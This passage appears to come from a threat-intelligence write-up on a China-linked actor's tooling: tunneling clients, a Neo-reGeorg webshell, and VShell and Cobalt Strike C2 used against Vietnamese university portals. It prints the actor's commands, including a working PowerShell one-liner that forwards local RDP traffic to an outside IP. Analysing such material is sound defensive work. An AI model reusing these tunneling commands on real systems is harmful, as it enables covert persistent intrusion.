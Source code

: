 * Viewing the threat actors IP address on Censys or Shodan, we can see the hostnames of victim machines exposed on ports like 6008 or 6002, which is a result of the FRP setup. 

```
xlfrc64.exe -k 123 -i 148.66.16[.]226 -p 47009 -s admin123q
xlfrc64.txt -k 123 -i 148.66.16[.]226 -p 47012 -s admin123q
```

* Alternative tunneling client (similar to `frpc`) connecting to `148.66.16[.]226` on ports 47009/47012.
  * We can find a reference to this tool being used for domain-fronting on this [Chinese Security forum](https://cn-sec.com/archives/3430285.html).

```
powershell -c "$l='0.0.0.0';$p=3389;$r='103.215.77[.]214:6665';$s=New-Object Net.Sockets.TcpListener($l,$p);$s.Start();while($c=$s.AcceptTcpClient()){$s=$c.GetStream();$b=New-Object Byte[] 1024;$d=New-Object Net.Sockets.TcpClient;$d.Connect($r);$u=$d.GetStream();while($i=$s.Read($b,0,$b.Length)){$u.Write($b,0,$i);$u.Flush()};$u.Close();$s.Close()}"
```

* A custom PowerShell TCP forwarder:
  * Listens on 0.0.0.0:3389 locally
  * Forwards traffic to 103.215.77[.]214:6665 (proxying RDP).

`E:\shell\Neo-reGeorg-master\Neo-reGeorg-master\neoreg_servers\tunnel.ashx` - [Open-source Chinese web-shell & tunnel](https://github.com/L-codes/Neo-reGeorg/blob/master/templates/tunnel.ashx)

# VShell

During our investigation, we identified the threat actor leveraging multiple methods for persistent access to target environments. This often included 2 active C2 frameworks (VShell & CS) on a host,  a persistent RDP tunnel, and a webshell. 

Aside from using Cobalt Strike for C2, the adversary has heavily leveraged `VShell` for persistent remote access to compromised Vietnamese university web portals. 

From the file `/vshell/v_windows_amd64/db/data.db` we were able to uncover the full list of the VShell victims. Unlike the CobaltStrike C2, the VShell beacons were reaching straight out to the C2 server, and we were able to recover real victim IP addresses. Additionally, we can see the threat actor had “named” the various victims by their domain name. This made attributing victims incredibly easily. 

Thankfully for us, using the same emulation method used for Cobalt Strike, we were able to access the VShell dashboard for further intelligence:

[![2](/assets/images/china/vshell.png)](/assets/images/china/vshell.png){: .full}
